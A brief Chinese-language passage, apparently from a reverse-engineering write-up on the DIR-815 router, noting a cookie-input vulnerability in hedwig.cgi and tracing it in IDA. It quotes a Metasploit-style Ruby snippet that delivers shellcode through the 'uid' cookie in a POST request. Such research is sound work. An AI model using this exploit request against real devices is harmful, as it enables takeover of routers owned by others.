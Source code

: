 可以看到是cookie的输入有漏洞，

```ruby
    begin
      res = send_request_cgi({
        'method' => 'POST',
        'uri' => "/hedwig.cgi",
        'cookie'   => "uid=#{shellcode}",
        'encode_params' => false,
        'vars_post' => {
          rand_text_alpha(4) => rand_text_alpha(4)
        }
      })
      return res
    rescue ::Rex::ConnectionError
      fail_with(Failure::Unreachable, "#{peer} - Failed to connect to the web server")
    end
```



ida查看cookie的字符串发现只有一处交叉引用，

![image-20221022222144259](DIR815/image-20221022222144259.png)



`sess_get_uid`的交叉引用：


